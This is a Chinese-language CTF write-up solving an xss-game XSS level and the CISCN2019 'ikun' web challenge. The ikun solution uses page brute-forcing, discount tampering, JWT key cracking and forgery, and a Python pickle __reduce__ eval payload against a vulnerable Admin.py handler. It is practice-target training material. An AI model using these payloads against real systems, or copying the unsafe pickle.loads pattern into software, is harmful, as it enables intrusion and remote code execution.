





# web解题writeup

## [xss-game](https://xss-game.appspot.com/level3)

- 通过观察参数，发现url内容被直接写入了标签，尝试构造

  payload，发现双引号被过滤，使用单引号成功触发xss

- 找到入口点以后，进入则触发了`xss`

  ```html
  https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
  ```

  

## [web类 CISCN2019华东北赛区web2](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web2]ikun)

- 打开靶机，进入[网页](http://c545ba98-1518-456b-938c-a10812dff191.node3.buuoj.cn/shop)

  

- 最下边的提示 -> 一定要买到 lv6,发现没有lv6这个图片，一共有500百页，网上找到一段爆破的代码(python反序列化确实不会，所以基本是复现网上的教程)

  ```python
  import requests
  url='http://2c771d3e-86f0-4f72-9815-f19dcb4fd51a.node3.buuoj.cn/shop?page='
  
  for i in range(0,2000):
      r=requests.get(url+str(i))
      if 'lv6.png' in r.text:
          print (i)
          break
  ```

- 发现lv6商品，加入到购物车后，准备注册账号并登录购买。显然钱数是不够的，但是却有折扣这一参数被直接post传值。那么修改其值足够小即可。得到一个目录`b1g_m4mber`。应该是后台地址

- 访问网址提示需要admin操作权限。这里抓包一下，发现cookie里居然有JWT。看来是比较常见的JWT伪造认证了。

- 先拿来base64解码，发现存在乱码。可能是因为加了盐值key的原因。那么第一步先爆破下key值：

  

- 得到JWTKey 为1Kun,接下来上[https://jwt.io/](https://links.jianshu.com/go?to=https%3A%2F%2Fjwt.io%2F),去生成admin的jwt token.

  

- 可以看到jwt-token一定是xxx.yyy.zzz的形式。且三段各自代表header,paylaod，signature的json数据内容经base64处理。爆破key值修改paylload为admin,控制台里修改

  ```bash
  document.cookie="JWT=xxxxxxxxxxx"
  ```

- 之后发现源码存在[www.zip](https://links.jianshu.com/go?to=http%3A%2F%2Fwww.zip)。可以拿到源码，之后是python反序列化。具体漏洞在Admin.py：

  ```python
  import tornado.web
  from sshop.base import BaseHandler
  import pickle
  import urllib
  
  
  class AdminHandler(BaseHandler):
      @tornado.web.authenticated
      def get(self, *args, **kwargs):
          if self.current_user == "admin":
              return self.render('form.html', res='This is Black Technology!', member=0)
          else:
              return self.render('no_ass.html')
  
      @tornado.web.authenticated
      def post(self, *args, **kwargs):
          try:
              become = self.get_argument('become')
              p = pickle.loads(urllib.unquote(become))
              return self.render('form.html', res=p, member=1)
          except:
              return self.render('form.html', res='This is Black Technology!', member=0)
  ```

- 这里其实可以把`pickle.loads`的操作理解为反序列化。而`__reduce__`这一魔术方法会在对象被pickle时调用。从而可以构造payload:

  ```python
  import pickle
  import urllib
  class payload(object):
      def __reduce__(self):
         return (eval, ("open('/flag.txt','r').read()",))
  
  a = pickle.dumps(payload())
  a= urllib.quote(a)
  print(a)
  ```

- 跑起来后传值拿到`flag`

  


